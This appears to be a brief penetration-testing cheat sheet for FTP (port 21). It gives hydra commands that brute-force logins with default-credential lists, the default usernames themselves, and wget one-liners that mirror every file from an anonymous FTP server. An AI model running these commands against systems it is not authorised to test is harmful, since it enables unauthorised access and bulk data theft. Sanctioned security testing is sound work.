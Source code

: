 # 21 - FTP

## bruteforce

```
# default creds
echo 'anonymous' >> ftpdefaults.txt
echo 'ftpuser' >> ftpdefaults.txt
echo 'ftp' >> ftpdefaults.txt
hydra -L ftpdefaults.txt -P ftpdefaults.txt ftp://RHOST

# known username
hydra -l USERNAME -P WORDLIST ftp://RHOST
```

## Default creds

```
anonymous
ftpuser
ftp
```

```
ftp <target>
> <username>
> <password>
> ls -a #don't forget to list hidden files too
> binary
> ascii
> bye
```

## Download all files from FTP

```
wget -m ftp://anonymous:anonymous@<target>
wget -m --no-passive ftp://anonymous:anonymous@<target>
```

